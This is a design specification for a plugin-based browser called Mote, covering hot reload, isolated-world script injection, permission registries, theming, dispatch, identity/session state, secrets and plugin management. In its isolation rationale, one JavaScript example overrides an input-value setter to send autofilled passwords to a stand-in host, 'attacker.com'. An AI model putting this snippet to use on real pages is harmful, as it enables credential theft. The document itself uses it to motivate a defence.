### Hot Reload

Hot reload is the load lifecycle applied when a plugin's files change. The same four-step process (schema validation → module load → contract conformance → permission approval) runs; the user prompt is skipped when no approval-relevant fields have changed.

Three scenarios:

- **Code change only.** Plugin's Lua logic edited; manifest unchanged. Runtime stops the running plugin instance, re-runs module load and contract conformance, calls `setup()`, plugin resumes. No prompt.
- **Manifest change with no expansion.** Version bump, homepage change, or removed permission. Hot reload happens; the approved permission set is intersected with the new requested set. No prompt.
- **Manifest change that expands `permissions`, `capabilities`, `consumes`, or `identity_scope`.** Plugin enters "awaiting approval" state; running instance is stopped; new manifest doesn't load until the user approves (or the plugin is in dev mode).

Plugin files are watched via OS-native mechanisms (inotify, FSEvents, ReadDirectoryChangesW). `mote plugin reload <name>` forces a reload regardless of whether files changed.

**State survives selectively.** `storage:persistent` is plugin-namespaced and durable across reloads — including reloads that pass through re-approval. In-memory state is volatile; plugin authors persist anything they care about to storage. This is documented expectation, not enforced; the runtime makes no guarantees about in-memory continuity across reloads.

**UI surfaces owned by a plugin are rebuilt on reload.** Open dropdowns, scroll positions, and in-progress input in the plugin's UI are lost unless the plugin persists them. Momentary visual artifacts (e.g., a brief flash during a sidebar panel rebuild) are acceptable.

### Script Injection and Isolated Worlds

When a plugin uses `page:inject_script` to run JavaScript inside a web page, **the script runs in an isolated V8 world**, not in the page's own JavaScript context. This is a Chromium-level security feature that CEF exposes; we use it mandatorily.

**The threat without isolation.** A page can intercept a plugin's behavior to extract sensitive data. Concrete example: a phishing site impersonating `github.com` waits for the password manager to autofill. If the plugin's script ran in the page's context, the page could install a prototype override before the plugin runs:

```javascript
const realDescriptor = Object.getOwnPropertyDescriptor(HTMLInputElement.prototype, 'value');
Object.defineProperty(HTMLInputElement.prototype, 'value', {
  set: function(v) {
    fetch('https://attacker.com/steal?v=' + encodeURIComponent(v));
    realDescriptor.set.call(this, v);
  }
});
```

Every subsequent `.value = password` from the autofill exfiltrates to the attacker.

**With isolated worlds.** The plugin sees a pristine `HTMLInputElement.prototype`. The page's override applies only to the page's world, not the plugin's world. The plugin's setter call goes through the real implementation; the password never leaks.

**Per-plugin isolation, not just per-origin:**
- The password manager's world is isolated from the page (page can't read credentials).
- The password manager's world is isolated from the ad blocker's world (a compromised ad blocker can't observe what the password manager is doing).
- The page's own scripts run in their original world, undisturbed.

DOM access is still shared — all worlds can read and modify the same DOM tree, which is how plugins do meaningful work. But JavaScript state, prototypes, and event handlers are private per world.

**Cost.** Setting up an isolated world has small one-time overhead (~1ms for the first V8 context creation per origin per plugin), sub-millisecond on subsequent loads. The security property is worth far more.

**Opt-out is a separate, restricted permission.** Rare plugins genuinely need to run in the page's own world — web-compatibility shims, certain instrumentation tools. They request `page:inject_unsafe_script` instead. This permission is red-flagged in the approval UI and reserved for legitimate edge cases. Most plugins should never need it.

## Permission and Capability Registries

Both registries ship with the browser source as machine-readable manifest schemas, versioned independently of the browser:

```
permissions/
  v1.yaml         # net:*, page:*, tabs:*, storage:*, etc.

capabilities/
  v1.yaml         # ui:urlbar_provider, password-manager:provider, etc.
```

Plugins target a schema version in their manifest (`schema = "v1"`). When the browser ships a new schema version, it continues to support previous versions for a documented deprecation window — plugins targeting v1 keep working under v1 semantics even after v2 ships.

**Permission registry growth.** Adding a permission is a browser release event. Each new permission requires:
- Implementation in the runtime (the enforcement code)
- Documentation of what it allows and what the risk is
- UI strings (how it's described in the integrity panel)
- Audit-log handling

**Capability registry growth.** Adding a capability requires:
- A contract specification (required API surface, events emitted/listened)
- An exclusivity decision (exclusive or non-exclusive) and, for non-exclusive, the dispatch shape (how the runtime treats multiple fulfillers)
- A conformance test the browser runs against fulfilling plugins

**Breaking changes to capability contracts are browser-version events.** If `password-manager:provider`'s contract changes in v2, plugins fulfilling it under v1 still work through v1 contract handling. The browser doesn't drop v1 until a major release with a documented deprecation period. This is the discipline that keeps the ecosystem stable as the browser evolves.

**Additive-only within a schema version.** Adding optional API methods, new event handlers with default no-op behavior, or new permission domains to an existing schema is allowed. Modifying argument shapes, removing surfaces, or making previously-optional things required is not — those are breaking changes that require a schema bump. Same rule as Protobuf field numbers: extend forward, never reshape.

### Schema migration policy

A schema bump (v1 → v2) follows an explicit timeline:

- **Announce in a Mote minor release** alongside the new schema. Both schemas supported.
- **Deprecate in the next minor release.** Plugins still load on v1; integrity panel surfaces a "needs migration" status badge per affected plugin (not a modal).
- **Remove in the following major release.** Plugins targeting the removed schema fail at schema validation with a clear error. Users can pin older Mote versions if they need plugins still on removed schemas.

Indicative cadence: if v2 ships in Mote 0.5, v1 is deprecated in 0.6, removed in 1.0. Months of overlap, not days.

Each schema bump ships with a `MIGRATION-vN-to-vN+1.md` in the Mote repo enumerating what changed, what's removed, what's added, with before/after manifest snippets. Most migrations are mechanical enough that LLM-assisted migration (paste the plugin + migration guide into Claude or similar) is the realistic path; no Mote-built migrate command in v0.1.

### Critical capabilities

Some capabilities are critical-path: without them, the browser is barely functional. The capability registry tags these explicitly:

```yaml
# capabilities/v1.yaml (excerpt)
workspace:provider:
  critical: true
  composability: exclusive

ui:urlbar_provider:
  critical: true
  composability: exclusive

ui:bookmarks_provider:
  critical: true
  composability: exclusive

ui:history_provider:
  critical: true
  composability: exclusive
```

The `critical: true` tag means **extended deprecation windows for schema migrations**: plugins fulfilling critical capabilities get longer migration runway than the standard timeline — concretely, an extra two minor releases between deprecation and removal. The migration guide for any schema bump that touches a critical capability flags this explicitly.

There is no separate "built-in fallback" mechanism. First-party plugins shipped via the `bundled` source already serve this role: on first launch, the default `plugins.lua` lists them with `source = "bundled"`, and they unpack from the Mote binary into the cache without requiring network. The browser is functional from first launch.

If a user explicitly removes or replaces a critical-capability plugin and the replacement fails, the browser refuses to function for that subsystem and surfaces the failure in the integrity panel. Loud failure is better than partial functionality for browser-critical concerns — silently degrading workspace management or urlbar suggestions would be more confusing than honest error reporting.

`password-manager:provider` is *not* marked critical, deliberately. Credentials are sensitive enough that "the browser is barely functional without a password manager" isn't true — most browsing doesn't need credentials — and a minimal fallback for credential management would be worse than no password manager at all.

## UI Composition — Slots, Elements, and Themes

The browser's UI is composed by three layers working together:

- **The runtime** owns a fixed grid of layout *slots* and a fixed registry of element *kinds*. Slots are where things can go; kinds describe what can go in them.
- **Plugins** provide *elements*: content of a known kind, addressed by a unique ID. Plugins don't choose placement.
- **Themes** decide which elements go in which slots, in what order, with what styling. Themes also declare which slots are user-resizable.

This inversion is intentional. The old model assumed a single sidebar everyone shares; this model lets the active theme arrange UI freely while plugins keep their content responsibilities. Where a sidebar lives, whether there is one, what's in it — all theme decisions. Plugin authors don't have to know.

### Slots (fixed in v0.1)

```
top-bar          horizontal strip at top
left-sidebar     vertical panel on the left
right-sidebar    vertical panel on the right
bottom-bar       horizontal strip at bottom
urlbar-inline    within the urlbar (for inline elements)
tab-row          within the tab strip
```

A theme may declare any slot empty, single-element, or multi-element. Slots that take multiple elements honor theme-declared ordering.

### Element kinds (fixed in v0.1)

```
urlbar             single instance, always present
tabstrip           single instance, always present
bookmarks-bar      optional
sidebar-panel      many; plugins register sidebar content
action-button      many; small buttons for plugin actions
status-indicator   many; icons/badges showing state
urlbar-extension   many; inline pieces of the urlbar
widget             many; catch-all for plugin-provided UI (gauges, timers, customizers, anything else)
```

Element kinds expand in v0.2+ via a registry extension. For v0.1, the eight kinds are the set. The `widget` kind exists specifically to ensure plugins with non-standard UI needs aren't stuck.

### Plugin-provided elements

A plugin declaring `ui:sidebar`, `ui:action_button`, etc. registers an element of the appropriate kind. The element has a unique ID (typically `<plugin-name>` or `<plugin-name>:<suffix>` for plugins with multiple elements) and a content function that renders into a host the runtime provides.

```lua
ui.register_element({
  id = "bookmarks",
  kind = "sidebar-panel",
  title = "Bookmarks",
  icon = "bookmark",
  render = function(host)
    -- host exposes the styling vocabulary (theme tokens) and layout helpers
  end,
})
```

The plugin does not specify where the element appears. It can offer placement *hints* (preferred kind alignment, default order) but the theme decides.

### Themes are plugins

A theme is a plugin fulfilling `theme:provider`. The capability is **exclusive** — only one theme is active at a time. Switching is intentional.

```lua
-- ~/.config/mote/plugins/tokyonight/init.lua
local M = {}

M.manifest = {
  schema = "v1",
  name = "tokyonight",
  version = "1.0.0",
  capabilities = { "theme:provider" },
}

M.theme = {
  inherits = "default-layout",

  styling = {
    colors = {
      bg     = "#1a1b26",
      fg     = "#c0caf5",
      accent = "#7aa2f7",
      -- ...
    },
    fonts = {
      ui      = "Berkeley Mono, monospace",
      content = "Inter, sans-serif",
    },
    spacing = {
      tab_height      = 28,
      sidebar_padding = 8,
    },
  },
}

return M
```

A theme that just changes styling can inherit `default-layout` and provide only `styling`. A more ambitious theme adds a `layout` block:

```lua
M.theme = {
  layout = {
    ["top-bar"]       = { "tabstrip", "urlbar", "action-button:*" },
    ["left-sidebar"]  = { "sidebar-panel:bookmarks", "widget:*", "sidebar-panel:*" },
    ["right-sidebar"] = {},  -- explicitly empty
  },
  styling = {
    colors = { ... },
  },
}
```

The `:*` wildcard means "any element of this kind not explicitly placed elsewhere goes here." This is how a theme handles UI surfaces from plugins it wasn't written to know about — a plugin shipped after the theme still gets a reasonable default placement.

The `default-layout` theme ships with the browser. Most users get sensible behavior immediately without thinking about layout.

### Styling tokens

The contract between plugins (content authors) and themes (style authors) is a **token vocabulary**. Plugin content references tokens by name; the active theme provides values; the runtime resolves at render time.

Token categories (fixed in v0.1; extensible later):

```
color.{bg, fg, accent, muted, success, warning, danger, ...}
font.{ui, content, mono}
spacing.{xs, sm, md, lg, xl}
radius.{none, sm, md, lg, full}
border.{thin, medium, thick}
```

Plugins author their `render` functions referencing tokens; they get whatever the active theme provides. The token registry is part of the runtime, validated alongside the permission and capability registries.

### User overrides

Users can override the active theme surgically without forking it. Overrides are Lua, applied via a Mote-provided helper:

```lua
-- in user config
mote.theme_overrides({
  styling = {
    colors = { accent = "#FF6B35" },
  },
  layout = {
    ["right-sidebar"] = { "sidebar-panel:adblock" },
  },
})
```

Deep-merge semantics: the override table is recursively merged into the active theme. User overrides win on conflict. This matches Neovim's `vim.opt`-style pattern users in the target audience expect.

Theme switches replace the underlying theme but preserve user overrides. The user's accent color stays through a theme change, applied on top of the new theme's defaults.

### Slot resize and persistence

Themes declare which slots are user-resizable and bounds:

```lua
M.theme = {
  layout = {
    ["left-sidebar"] = {
      elements = { "sidebar-panel:bookmarks", "sidebar-panel:*" },
      resizable = true,
      default_size = 280,
      min_size = 200,
      max_size = 500,
    },
  },
}
```

The user can drag the edge of resizable slots within bounds. Resized state persists per workspace (same model as workspace pinned tabs and accent — UI state in a workspace fits there naturally). A theme switch resets to the new theme's defaults; user resize re-personalizes from there.

### Plugin dispatch and composition (cross-reference)

Hook-level dispatch (how plugin handlers compose when multiple plugins hook the same event) is a separate concern from layout. See *Plugin Dispatch and Composition* below for the runtime's per-hook dispatch patterns.

## Plugin Dispatch and Composition

When multiple plugins hook the same event, the runtime decides how their handlers compose. The pattern is chosen by the event itself, not by the plugin. (This is a *hook-level* dispatch concern, distinct from the capability-level exclusivity model — different layers, different mechanisms.)

### Hook dispatch patterns

**Filter chains** — for events where plugins make decisions that compose (`net:intercept_request`, request/response inspection). Plugins form an ordered chain. Each handler receives the (possibly already modified) state and returns one of four decisions:

- `block` — short-circuits the chain. The request is not sent. Later handlers are notified for observability but cannot override.
- `modify` — returns a transformed payload. Cascades to the next handler, which sees the modified version.
- `allow` — explicit positive vote. Doesn't short-circuit; later handlers can still block or modify.
- `defer` — no opinion. Default when a handler returns nothing.

Resolution rule: **first `block` wins; `modify` cascades; `allow` and `defer` continue the chain.** Standard middleware semantics — developers familiar with Express, Koa, or Tower recognize this immediately.

**Broadcasts** — for observation events (`tabs:on_change`, `events:on`, `workspaces:on_change`). All registered handlers receive the event, called sequentially but with no shared state and no return-value semantics. Errors in one handler don't affect others. Order doesn't matter semantically.

**Collectors** — only used inside an exclusive capability's internal event surface (e.g., history's `urlbar:suggest`). Each subscriber returns contributions; the provider plugin merges and ranks. The provider owns the merge policy.

**Fan-out per origin** — special case for `page:inject_script` and `page:inject_css`. Each plugin's script runs independently in its own isolated world. Not a chain; multiple plugins inject into the same page in parallel without composing.

### What plugin authors actually need to know

Most plugins hook one event and don't care about composition.

```lua
-- Simplest case: observe only
function M.on_request(request)
  events.emit("logger:request", request)
end
```

If the function returns nothing, the runtime treats it as `defer`. The plugin is purely observational.

When a plugin needs to make a decision, return one of the four values:

```lua
function M.on_request(request)
  if matches_easylist(request.url) then
    return { action = "block", reason = "easylist" }
  end
end
```

That's the entire mental model. Three things a plugin author needs to know:

1. Pick the events to hook. Write a function for each.
2. Return `{ action = "block" }`, `{ action = "modify", ... }`, `{ action = "allow" }`, or nothing (`defer`).
3. Handlers have a time budget that depends on hook type (10ms for filter chains, 100ms for broadcasts). Repeated overruns auto-disable the plugin. See *Runtime guarantees* below for the full table.

Priorities and explicit ordering are an advanced topic. Plugin docs cover them in a separate "Advanced Dispatch" section; the getting-started guide ignores them entirely.

### Dispatch ordering

Within a filter chain, handlers run in **flat priority order** (integer, higher runs earlier; default 50, ties broken alphabetically by plugin name). A plugin declares priority in its manifest:

```lua
hooks = {
  ["net:intercept_request"] = { priority = 70 },
  ["tabs:on_change"] = {},   -- defaults are fine
}
```

**User config wins absolutely.** User configuration in `~/.config/mote/` can pin ordering and override any plugin's priority suggestion:

```lua
-- in user config
mote.dispatch.order("net:intercept_request", {
  "privacy-headers",
  "adblock",
  "request-logger",
})
```

Same philosophy as Neovim's autocmd groups: plugins suggest, user decides.

### Runtime guarantees

The dispatch contract varies by hook type, not by plugin.

| Hook type | Budget | Semantics | On overrun |
|---|---|---|---|
| Filter chains (`net:intercept_request`, response interception) | 10ms | Sync, hard timeout | Treat as `defer`, log warning |
| Broadcasts (`tabs:on_change`, `workspaces:on_change`, `events:on`) | 100ms | Async-allowed | Log warning; chain continues |
| Keybind handlers (`keys:bind`) | n/a — input-coalescing | Sync, but if input arrives while a handler runs, discard the queued events and handle the latest | No raw-timeout auto-disable |

Across all hook types:

- **Lua errors are caught**, plugin skipped for the failing dispatch, dispatch continues for other plugins.
- **Three timeouts or errors in a 24-hour window → plugin auto-disables** with a system notification (not just an integrity-panel entry). Exception: keybind handlers don't count toward this — they have their own coalescing semantics.
- **Critical errors** (manifest validation failure, contract conformance failure) surface in the integrity panel with `[Diagnose] [Disable] [Reload]` controls.

Plugin docs cover the per-hook contract in detail; the getting-started guide just says "return your decision or nothing; the runtime handles the rest."

### Observability

The diagram below traces a single network request through the dispatch chain — three plugins hooked to `net:intercept_request`, with one modifying, one blocking, and one observing.



The audit log for a single dispatched event records the chain in full:

```
GET https://tracker.example.com/pixel.gif
  privacy-headers       → modify   (0.8ms)  [+DNT, +Sec-GPC]
  adblock               → block    (1.2ms)  [easylist: tracker.example.com]
  request-logger        → defer    (0.3ms)  [observed only]
  Result: BLOCKED  (total: 2.7ms)
```

This is the single most valuable thing the browser can show users. Every other browser has opaque request handling; this surfaces every decision and which plugin made it.

## User State Model — Identity, Workspace, Session

Browsers conflate three concepts that should be orthogonal axes:

- **Identity** — who the user is being. Cookies, localStorage, IndexedDB, cached credentials, browsing history. "Work me" vs. "personal me." Implemented as Chromium's profile mechanism.
- **Workspace** — what the user is doing. A grouping of pinned tabs, visual identity, default behaviors. Arc/Zen call these spaces; Vivaldi calls them workspaces; we use *workspace*.
- **Session** — what's currently open. The set of running tabs, their scroll positions, undo history, form state.

These three axes are independent: a "work" identity can be used in a "deep research" workspace for a "morning planning" session, and that combination is meaningful. Conflating any pair forces the user to duplicate state or compromise their workflow.



### Identity

Separate cookie jars, storage, history, and cache directories per identity. A tab in identity A cannot see anything from identity B; they are effectively different browser instances sharing a UI.

```
identities/
  default/
  work/
  personal/
```

**Hidden by default.** New users have a single "default" identity and never see the concept. Identity only surfaces when explicitly created (via settings or a plugin). The model is invisible by default, available when needed.

Plugins access the current identity via the `identity:read_current` permission.

### Workspace

A workspace is the user-facing context — what Zen calls a space. A workspace owns:
- An ordered set of pinned tabs
- A visual theme (accent color, icon, optional wallpaper)
- A default identity (which identity new tabs open in by default)
- A default new-tab page (can be a plugin-rendered page)
- Optional default keybinding layer

A workspace does *not* own cookies or storage — that's identity's job. A tab in workspace "Work" using identity "work" has access to your Kudu cookies; the same workspace with identity "personal" doesn't.

```lua
-- in user config
mote.workspace.define({
  name = "Work",
  icon = "briefcase",
  accent = "#3b82f6",
  default_identity = "work",
  default_newtab = "internal://dashboard?workspace=work",
  pinned_tabs = {
    { url = "https://linear.app/kudu", identity = "work" },
  },
})
```

Workspaces are dotfile-checkable. Switching workspaces is a single keybind; the visible tab set, pinned tabs, theme, and default identity for new tabs all change together.

### Session

Session is ephemeral runtime state — currently open tabs, scroll positions, history stacks, undo state, form drafts. Lives in SQLite per identity in `~/.local/state/mote/` (platform equivalent on macOS/Windows). **Not dotfile-managed by default.**

The line between config and session:

| Lives in | Examples |
|---|---|
| Dotfile config (`~/.config/`) | Identity declarations, workspace definitions, pinned tabs, themes, keybinds |
| Runtime state (`~/.local/state/`) | Open tabs, scroll positions, undo history, form drafts |

The principle: **anything the user wants identical on a fresh machine setup is config; anything specific to one machine's runtime is session.** Pinned tabs are config (the user decided to pin them). Open tabs are session (whatever was left open).

Session state can optionally be synced via a plugin (a hypothetical `session-sync` plugin), but it's never in the default dotfile path.

The operational mechanics — tab states, hidden-tab lifecycle, crash recovery, memory management — are detailed in *Tab Persistence and Session Behavior* below.

### Plugin Identity Scope

Plugins declare their relationship to identity in the manifest:

```lua
identity_scope = "per_identity"   -- default for plugins that store data
identity_scope = "global"          -- default for behavioral plugins
identity_scope = "user_choice"     -- user picks at install time
```

- **`per_identity`** — runtime gives the plugin a separate storage namespace per identity. Plugin code is identity-unaware; isolation happens automatically. Default for plugins that store data (bookmarks, history, sealed credentials).
- **`global`** — plugin sees one storage namespace shared across identities. Default for purely behavioral plugins (adblock, vim mode, dark mode).
- **`user_choice`** — at install time the user picks. The install dialog explains the trade-off:

```
Install password-manager-1password?

Storage scope: ( ) Per identity — separate vaults per identity
               (•) Global       — one vault across all identities

You can change this in plugin settings later.
```

**Even with global storage, plugins still know the current identity** via `identity:read_current`. A password manager with global storage and one 1Password vault can filter autofill items based on the active identity — surfacing only "work" credentials in the work identity, only "personal" credentials in the personal identity, all from one vault. The vault is one place; the filtering happens at autofill time.

This pattern matters: it supports the realistic case (one password manager for everything) without forcing the user to duplicate vaults or accept seeing all credentials everywhere.

### Defaults

- Single "default" identity for new users; multi-identity only when explicitly created.
- Plugins that request storage permissions default to `identity_scope = "per_identity"`. Plugins that don't default to `global`.
- Password managers and other plugins where both modes are legitimate declare `user_choice`.

## Tab Persistence and Session Behavior

The session model has three layers: tab state, window views, and memory management. Each is designed to make "closed and reopened" feel seamless without the operational cost of naïve "remember everything" approaches.

### Three tab states

A tab is always in exactly one state:

- **Active in window** — visible in some window's tab strip; focused or recently focused.
- **Hidden in workspace** — belongs to the workspace, not currently shown in any window. Retrievable via the workspace tab picker.
- **Closed** — explicitly closed by the user (`Ctrl+W`, middle-click). Recoverable via undo-close for a short window; gone after.

### Window tab strips are views, not state

Tab strips are window-local. Window A shows its own tabs; window B shows its own tabs. They don't mirror.

The workspace's tab list is the canonical state. Window tab strips are *views* onto it. Consequences:

- **Closing a window releases its tabs to "hidden in workspace."** Tabs aren't destroyed with the window; they transition active → hidden.
- **Closing a tab is different.** `Ctrl+W` on a specific tab is active → closed. Intentional.
- **Multiple windows on the same workspace have independent tab strips.** Useful for side-by-side workflows (PR diff in window A, Slack thread in window B) without mirror chaos.

### The workspace tab picker

A first-class navigation primitive. Keybind (default `Mod+Space` or `:` command-mode) opens a fuzzy-finder over all tabs in the current workspace — active in any window plus hidden in workspace. Selecting:

- An active tab → focuses it in its existing window (WM raises that window).
- A hidden tab → brings it into the current window (or with a modifier, into a new window).

Ranking: active tabs first, pinned tabs near top, held tabs high, recent hidden tabs descending by `released_at`, fuzzy match score weighted by recency. Stale tabs sink before they're reaped.

### Restoration model

On launch:

- **Active workspace restored eagerly.** Its previously-displayed tabs come back as placeholders (titles, favicons, scroll positions) without loading the pages. Pages load when the user focuses each tab.
- **Other workspaces lazy.** Their tabs aren't materialized until the user switches to that workspace.

Tab strips show everything; hydration is on focus. Startup is fast regardless of total tab count.

### Crash recovery

Session state is written to SQLite continuously (on every state change, batched at ~5s intervals, WAL mode for durability). The result: **no functional difference between clean exit and crash recovery.** Both look like "your session as of a few seconds ago." A hard crash loses at most ~5s of activity; no crash-recovery prompt interrupts the user.

### Hidden tab lifecycle

Hidden tabs cost SQLite rows, not RAM. The renderer process is destroyed at the active → hidden transition. A few KB on disk per tab; zero RAM.

The real concerns are cognitive (tab picker clutter) and disk (unbounded growth). Both are handled by aging:

- **Default TTL: 30 days.** Configurable; `never` disables.
- **Hold**: a runtime mark exempting a tab from TTL. Set via the tab picker's right-click menu. Indicated with a small icon. Session-only — not in dotfiles. Use when coming back to a tab but it's not part of the workflow forever.
- **Pin**: promote a hidden tab to a workspace pinned tab. Lives in user config. Durable across machines via Git. Appropriate for tabs that are part of how the user works in this workspace.

```lua
-- in user config
mote.session.configure({
  hidden_tabs = {
    ttl          = "30d",   -- auto-delete after this; "never" disables
    soft_warn_at = 500,     -- show indicator when workspace exceeds this
  },
})
```

The distinction: **hold is runtime intent; pin is configured intent.**

### Active tab discarding

Memory pressure comes from active tabs unfocused for a long time. Standard tab-discarding behavior, modeled after Chrome's Memory Saver:

- Active tabs unfocused for >30 minutes have their renderer process killed.
- The tab remains visible in its window's strip; clicking reloads.
- Discarded tabs are functionally equivalent to hidden tabs in RAM cost (zero) but remain in their window strip.

```lua
mote.tabs.configure({
  discard_unfocused_after = "30m",   -- "never" disables
  keep_pinned_loaded      = true,    -- pinned tabs never get discarded
})
```

### Memory cost across tab states

| Tab state | RAM cost | Disk cost |
|---|---|---|
| Active, focused | Full (renderer + JS heap) | One row in session.db |
| Active, unfocused > 30min | Discarded (~zero) | One row in session.db |
| Hidden in workspace | Zero | One row in session.db |
| Aged out (>30 days hidden) | Zero | Deleted |

### Session schema

Session state per identity in SQLite at `~/.local/state/mote/<identity>/session.db`:

- Open tabs: URL, title, favicon ref, last-visited timestamp
- Tab order within each workspace
- Scroll position per tab
- Tab history stack (back/forward URLs)
- Form drafts (see below)
- Active workspace, active tab within each workspace, hidden-tab metadata (`released_at`, hold flag)

**Not in session** (regenerable or living elsewhere):
- Page contents, DOM state, JS heap (re-rendered on load)
- localStorage, cookies, IndexedDB (live in identity's persistent storage)
- Plugin internal state (each plugin manages its own)
- **Window geometry.** The user's window manager handles window placement; Mote opens, the WM places. Consistent with the Window model principle.

### Form drafts

Conservative defaults:
- Save inputs only after >20 chars of typing in the same field.
- Never save fields marked `type="password"`, `autocomplete="off"`, `autocomplete="cc-*"`, or with semantic indicators of sensitivity.
- Clear after 7 days.
- Per-site opt-out is a v0.2+ plugin concern via a future `session:exclude_forms` permission.

### New permissions surfaced by this model

```
tabs:
  reveal               # move a hidden tab into a window (used by the tab picker)
session:
  manage_hidden        # tooling plugins: bulk close, filtered reap, audit
  exclude_forms        # v0.2+ — per-site form-draft opt-out
```

`session:manage_hidden` is a tooling permission flagged in the integrity panel.

## Secret Management

Plugins need credentials — LLM API keys, password-manager tokens, MCP server auth, custom self-hosted backends. The substrate provides a single subsystem for this so the dotfile experience stays clean for everything *except* the secret values, and so every plugin gets the same audit surface regardless of where its credentials come from.

### Principles

- **Dotfiles carry references, never values.** A config file checked into Git can name the secret `anthropic_api_key`; the actual value lives outside Git.
- **The plugin sees a string.** It never knows or cares where the value came from. Plugins are credential-store-agnostic.
- **The user picks the backend per secret.** OS keyring as the safe default; age-encrypted files, environment variables, and external secret managers (1Password, Bitwarden) as alternatives.
- **Permissions are per-secret-name.** A plugin requesting `secret:read:anthropic_api_key` gets that one secret, not the whole vault.

### Config shape

Secrets are declared outside the dotfile path (or `.gitignore`d):

```lua
-- ~/.config/mote/secrets.lua — NOT checked into dotfiles
mote.secrets.define({
  anthropic_api_key = { backend = "keyring",          id        = "mote/anthropic" },
  onepassword_token = { backend = "password-manager", reference = "op://Personal/1Password Connect/credential" },
  bitwarden_key     = { backend = "age",              path      = "~/.config/mote/secrets/bitwarden.age" },
  my_custom_secret  = { backend = "env",              var       = "MY_CUSTOM_SECRET" },
})
```

Plugin config (which *is* in dotfiles) references by name:

```lua
-- in user config — IS in dotfiles
mote.plugin_config("some-llm-plugin", {
  provider = "anthropic",
  api_key  = "$secret:anthropic_api_key",
})
```

The runtime resolves `$secret:<name>` at plugin-launch time by looking up the named secret, calling the appropriate backend, and providing the resolved value to the plugin.

### Supported backends

- **`keyring`** — OS-native keyring (macOS Keychain, Linux Secret Service, Windows Credential Manager). Default; no plaintext on disk.
- **`password-manager`** — routes to whichever plugin fulfills `secret:provider` (typically `password-manager-1password`, `password-manager-bitwarden`, etc.). Reference syntax is backend-specific — the password manager plugin parses it.
- **`age`** — decrypts an age-encrypted file with a key the user has unlocked.
- **`env`** — reads from an environment variable.
- **`file`** — reads from a plaintext file. Off by default; user must opt in explicitly because of the foot-gun.

### Plugin API

```lua
M.manifest = {
  permissions = {
    "secret:read:anthropic_api_key",
    "secret:read:onepassword_token",
  },
}

function M.setup()
  local api_key = secrets.get("anthropic_api_key")
  -- use it; never persist it; never log it
end
```

The plugin sees only the secrets it requested by name. It cannot enumerate other secret names, cannot read other plugins' secrets, cannot see backend metadata.

### Password manager as a secret backend

The `password-manager` backend is the interesting integration. A plugin fulfilling `password-manager:provider` *may* additionally fulfill `secret:provider` — this is opt-in. Plugin authors of password managers decide whether to expose this surface; minimal password managers can skip it.

When opted in, the password manager parses its own reference syntax (`op://...`, `bw://...`, etc.) — the secret subsystem does not abstract over vendor reference formats. Because `password-manager:provider` is exclusive (only one active at a time), there's only one password manager plugin to ask, so routing is unambiguous.

The security contract is preserved end to end:
- The requesting plugin has only `secret:read:<name>`, not any `password-manager:*` access.
- The password manager plugin operates under its own existing permissions to reach the vault.
- The secret subsystem mediates the handoff; neither plugin gains permissions it didn't already have.

### UX for mapping plugin needs to vault items

v0.1: a CLI helper. `mote secrets link <name>` opens a picker (when a password manager is active) that lists vault items and writes the resulting reference into `secrets.lua`.

v0.2+: the install dialog detects when a plugin requests `secret:read:<name>` and an active password manager fulfills `secret:provider`, and offers an inline "find this in your vault" button.

### Per-identity scoping

`secrets.lua` can be global (`~/.config/mote/secrets.lua`) or per-identity (`~/.config/mote/identities/<identity>/secrets.lua`). Per-identity overrides global per secret name. A user with separate work and personal credentials gets a clean partition; a user with one set of credentials writes one global file.

### Audit surface

The integrity panel shows, per plugin: which secret names the plugin has access to, when each was last read, and which backend resolved each. The user can revoke any individual secret without affecting others.

A plugin requesting unrelated secrets (e.g., vim-mode asking for `secret:read:anthropic_api_key`) is visible at install time and in the integrity panel afterward. Standard permission-model defense.

## Plugin Management

Plugins can come from Git repos, local paths, or be dropped into the plugins directory ad-hoc. The management layer makes the dotfile-driven workflow deterministic across machines while preserving the "drop a file, get prompted" fast path.

### Manifest and lock file

Two files in the user's dotfile path:

```lua
-- ~/.config/mote/plugins.lua — user-authored, checked into dotfiles
mote.plugins({
  adblock         = { source = "github:mote-browser/adblock" },
  vim_mode        = { source = "github:mote-browser/vim-mode" },
  cool_plugin     = { source = "github:them/cool-plugin", version = "v1.2.3" },
  my_local_plugin = { source = "path:~/code/my-plugin" },
})
```

```toml
# ~/.config/mote/plugins.lock — machine-managed, checked into dotfiles
[plugins.adblock]
commit = "abc123def456..."
checksum = "sha256:..."

[plugins.cool-plugin]
commit = "def456abc789..."
checksum = "sha256:..."
```

`plugins.lua` declares what plugins the user wants and where they come from; the CLI (`mote plugin add` etc.) can mutate it programmatically by rewriting the call. `plugins.lock` pins the exact resolved versions and content checksums; it's machine-managed and opaque to users — its TOML format is an implementation detail. Clone your dotfiles to a fresh machine, run `mote plugin sync`, get exactly the same plugin set you had elsewhere. Same role as `lazy-lock.json` in lazy.nvim — user spec is Lua, lock file is generated.

### Supported sources (v0.1)

- **`github:<owner>/<repo>`** — shorthand for the common case.
- **`git+https://...`** — any Git URL.
- **`path:<local-path>`** — local directory, for development or for plugins generated by Claude Code into arbitrary paths.
- **`bundled`** — from a local bundle the runtime knows about. The Mote binary always provides a built-in bundle containing first-party plugins; users can configure additional bundles in v0.2+ via `[bundles]` in config (path to a directory or archive). Used by first-party plugins by default and by anyone assembling an offline plugin set.

The `bundled` source intentionally abstracts over "where the bundle lives." For v0.1 the only resolved bundle is the Mote binary; the config grammar permits external bundle declarations (`bundled:<bundle-name>`) but the runtime wires those up in a later release. This keeps offline-distribution, airgapped, and corporate-curated-bundle scenarios open without designing for them today.

A registry source is deferred until a registry exists (see Open Decisions).

### Cache layout

Fetched plugin trees live in a content-addressed cache:

```
~/.cache/mote/plugins/
  cool-plugin/abc123def456/
    init.lua
    ...
  cool-plugin/def456abc789/    # previous version retained for rollback
    init.lua
    ...

~/.config/mote/plugins/
  cool-plugin/                  # symlink → ~/.cache/mote/plugins/cool-plugin/def456abc789/
  my-local-plugin/              # real directory (path: source)
  pasted-plugin/                # real directory (implicit local)
```

The cache holds every fetched commit; the plugins directory has symlinks for Git sources and real directories for path sources and implicit local plugins. This gives instant rollback (relink, no file copies), real diff between versions, and disk-friendly sharing across identities.

### CLI surface

```
mote plugin add <source> [--version <v>]   # add to plugins.lua, fetch, write lock entry
mote plugin remove <name>                  # remove from plugins.lua + lock; cache entry retained
mote plugin update [<name>]                # fetch latest matching version constraint, update lock
mote plugin source <name> <new-source>     # change a plugin's source (e.g., bundled → github:...)
mote plugin sync                           # reconcile cache and plugins directory with lock
mote plugin rollback <name>                # relink to previous cached commit
mote plugin diff <name>                    # show what an update would change (incl. permissions)
